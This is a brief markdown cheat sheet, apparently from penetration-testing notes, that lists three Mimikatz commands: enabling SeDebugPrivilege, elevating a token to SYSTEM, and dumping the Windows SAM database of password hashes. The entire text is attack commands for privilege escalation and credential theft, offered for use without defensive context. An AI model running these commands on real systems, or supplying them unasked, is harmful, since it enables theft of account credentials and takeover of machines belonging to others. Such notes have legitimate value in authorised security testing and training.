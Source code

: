 # Mimikatz

## Enable SeDebugPrivilge

```text
 privilege::debug
```

## Elevate from high integrity level to SYSTEM level

```text
token::elevate
```

## Dumping SAM Database

```text
lsadump::sam
```



